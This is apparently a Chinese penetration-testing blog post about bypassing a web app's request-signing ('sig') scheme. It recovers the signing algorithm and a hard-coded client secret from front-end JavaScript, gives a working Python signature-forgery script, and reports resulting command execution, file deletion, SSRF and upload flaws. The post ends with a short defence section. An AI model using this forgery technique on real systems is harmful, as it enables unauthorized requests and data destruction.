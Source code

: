 ```yaml
---
layout: post
title: 一次验签机制伪造绕过引起的血案
noToc: true
date: 2020-01-18 15:30:00 +0800
tags: WEB安全  渗透测试
cover: '../assets/sign.png' 
---
```


## 一次验签机制伪造绕过引起的血案

### 背景

在实际资产网站中比较有安全意识的开发，为了防止攻击者获的请求数据包和参数进行伪造和重放，会在每一次请求中加上sig/sign验签机制，来保证请求不会被伪造和重放，确保请求的安全性。

主要防御措施可以归纳为两点：

- 对请求合法性进行校验
- 对请求的数据进行校验

而sig的核心是参数值防戳改+防二次请求。

nonce方案，加上仅一次有效的随机字符串，如：加密算法MD5/hash(random_string+token+request_param+param+param_value)处理后生成一个一次性有效的字符串值sig，存起来或在集合中，第二次先进行判断若出现相同的sig则认为重放，若放在集合则产生一个问题集合会无限扩大。

timestamp方案，即timestamp和其他参数一起进行数字签名。一次正常的HTTP请求，从发出到达服务器一般都不会超过一个规定的时间范围假设为60s，那么在60s之内也就可以进行重放攻击。

所以现在采用较为安全的方案一般可以是，nonce+timetamp方案，timetamp保证60s之外无法进行重放伪造，nonce又保证了60s之内请求的一次性有效，timetamp下60s后sig失效,同时解决集合无限放大的问题。

但是尽管sig生成机制多么的严密，理论上来说，还是防不了攻击者自己生成sign，因为客户端需要发送合法的数据包，那么生成的算法代码一定会出现在在客户端里（js）中，所以只要得到客户端的sign生成算法仍然存在sign伪造绕过。卸下验签机制的伪装后系统往往存在着许多严重的漏洞。就像下面的案例。

### 进入主题

最近渗透某系统时发现在前端每一步请求时都会生成一个sig验签机制，来保证请求的数据和提交的请求不可被重放。在验签机制的生成可在前端**xxx.js**中查看其签名机制的生成原理，即

md5((e.indexOf("?") > 0 ? r.objKeySort($.parseJSON('{"' + e.split("?")[1].replace(/=/g, '":"').replace(/&/g, '","') + '"}')) : "{}") + d + sessionStorage.getItem("token") + a["default"].ajaxStr);

如下图

![img1]({{site.baseurl}}/assets/images/sign_pass/1.png)

sessionStorage.getItem("token")为jwt token固定且已知，d为6位生成的随机字符串（也可忽略可在下一次重新生成一个）r为doOutput->this传入的对象t

![im2]({{site.baseurl}}/assets/images/sign_pass/2.png)

![img3]({{site.baseurl}}/assets/images/sign_pass/3.png)

t为用户请求的功能接口可控。

用objKeySort如下图解析接口提交的data数据将等于号替换成冒号等操作转化为json格式然后按照键进行排序得到新的json数据。

![img4]({{site.baseurl}}/assets/images/sign_pass/4.png)

只有一个a["default"].ajaxStr未知，但该参数值也为一个固定值，

 

 

![img5]({{site.baseurl}}/assets/images/sign_pass/5.png)

 

 

![img6]({{site.baseurl}}/assets/images/sign_pass/6.png)

 

 

在这种情况下若a["default"].ajaxStr参数被泄露，攻击者可根据构造的数据包重新伪造一个签名进行重放，如下删除请求，后台代码中对参数并未进行过滤直接拼接进行任意文件操作，

![img7]({{site.baseurl}}/assets/images/sign_pass/7.png)

对应后端代码，存在任意文件删除，若签名伪造成功则可完成攻击。

![img8]({{site.baseurl}}/assets/images/sign_pass/8.png)

，代码多处存在问题，因此ajaxStr若能够在前台泄露则可造成在验签机制被伪造绕过的情况下系统的多处漏洞（使用到的危险函数未过滤）被触发的风险。

根据客户端中以上js中验签机制生成算法流程可以得到：

sig=md5({"param":"value"}+random_string+token+ajaxStr)

###  卸下sig伪装

抓取一个请求包

![img9]({{site.baseurl}}/assets/images/sign_pass/9.png)

token=

![img11]({{site.baseurl}}/assets/images/sign_pass/14.png)

调试js,获取ajaxstr

<img src="{{site.baseurl}}/assets/images/sign_pass/10.png" alt="img10"  />

ajaxStr="f%>zDq&6XqiY"

得到

sig=md5({"param":"value"}+random_string+token+ajaxStr)

中各参数的值

![img12]({{site.baseurl}}/assets/images/sign_pass/11.png)

![img13]({{site.baseurl}}/assets/images/sign_pass/12.png)

根据客户端js的验签机制生成算法python进行复现及伪造

![img14]({{site.baseurl}}/assets/images/sign_pass/13.png)

sig伪造exp

```python
import random
import string
import json
import time
import hashlib

def parseJSON(dataStr):
	strJSON="{'"+dataStr.replace("=","':'").replace("&","','")+"'}"
	return strJSON
def objKeySort(json_str):
	SortJson=json.dumps(eval(json_str),sort_keys=True)
	print(SortJson)
	print(type(SortJson))
	return SortJson
a = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z"]

#token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVybWFuIiwiaWF0IjoxNTc4OTA2Mzk3LCJpcGFkZHIiOiIxOTIuMTY4Ljg2LjIzMiIsImxvZyI6MTU3ODkwNjM5MSwidWlkIjoiIn0.OE9DEe2qS6p1eQeXXxGoUTfjMQZn3E8Ni73V2BIcc5Y";
token=''

if token=='':
	token=input("请输入token:")
	dataStr=''

if dataStr=='':
	dataStr=input("请输入提交的数据：")
jsonStr=parseJSON(dataStr)
print("Sort前-JSON:"+jsonStr+'\n')
objKeySort_JSON=objKeySort(jsonStr).replace(": ",":").replace(", ",",")
print("Sort后-JSON:"+objKeySort_JSON+'\n')
ajaxStr="f%>zDq&6XqiY";
num=''.join(random.sample(a,6));
num1='5WUX51';
#抓包下载
str_sig=str('''{"pcap_name":"pcap_20200113_155745.pcap|test|"}''')+num+token+ajaxStr;
#添加数据
str_sig=objKeySort_JSON+num+token+ajaxStr;

a = hashlib.md5()
a.update(str_sig.encode(encoding='utf-8'))
sig=a.hexdigest()
print("加密的字符串为："+str_sig+'\n')
print("sig:"+sig+'\n');
print("non:"+num+'\n');
print(dataStr+"&non="+num+"&sig="+sig);
```

### 渗透开始

#### 命令执行

![img15]({{site.baseurl}}/assets/images/sign_pass/15.png)

#### 任意文件删除

![img16]({{site.baseurl}}/assets/images/sign_pass/16.png)

![img17]({{site.baseurl}}/assets/images/sign_pass/17.png)

![img18]({{site.baseurl}}/assets/images/sign_pass/18.png)

![img19]({{site.baseurl}}/assets/images/sign_pass/19.png)

![img20]({{site.baseurl}}/assets/images/sign_pass/20.png)

#### SSRF

![img21]({{site.baseurl}}/assets/images/sign_pass/21.png)

#### 任意文件上传

![img22]({{site.baseurl}}/assets/images/sign_pass/21.png)

### 防御

理论上来说，根本防不了攻击者自己生成sign，因为客户端需要发送合法的数据包，那么生成的算法代码一定在客户端里的，所以建议提高攻击难度，对前端js进行混肴加密。

Js混肴加密可参考：

https://github.com/c0ny1/jsEncrypter

进行加密。